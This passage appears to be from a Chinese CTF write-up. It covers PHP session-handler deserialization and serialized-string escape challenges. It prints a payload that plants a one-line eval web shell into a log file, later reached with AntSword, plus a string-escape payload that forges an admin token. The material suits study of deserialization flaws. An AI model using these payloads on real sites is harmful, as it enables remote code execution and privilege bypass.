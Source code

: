 >php_serialize: 经过serialize()函数处理过的值，会将键名和值当作一个数组序列化

代码审计发现可利用函数：

![](https://img-blog.csdnimg.cn/20210402163910213.png#pic_center)
Index.php: 写入cookie

![](https://img-blog.csdnimg.cn/20210402163934987.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

Check.php:  调用cookie

![](https://img-blog.csdnimg.cn/20210402163954367.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Inc.php:

Class User 中
写入恶意代码，生成log-(地址)

![](https://img-blog.csdnimg.cn/20210402164043936.png#pic_center)
payload:

```php
<?php
class User{
    public $username='b.php';
    public $password='<?php eval($_POST[shell]);?>';
    public $status='a';
}
echo base64_encode('|'.serialize(new User));
?>
```
再访问check.php ，让其调用cookie

![](https://img-blog.csdnimg.cn/20210402164124682.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
最后蚁剑连接log-b.php

---
# 264(反序列化字符串逃逸)

与262不同：

```php
if(isset($_COOKIE['msg'])){
    $msg = unserialize(base64_decode($_SESSION['msg']));
    if($msg->token=='admin'){
```

index.php  payload：

>fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck”; s:5:"token";s:5:"admin";}


在message.php cookie添加msg=任意:

![](https://img-blog.csdnimg.cn/20210402164459421.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---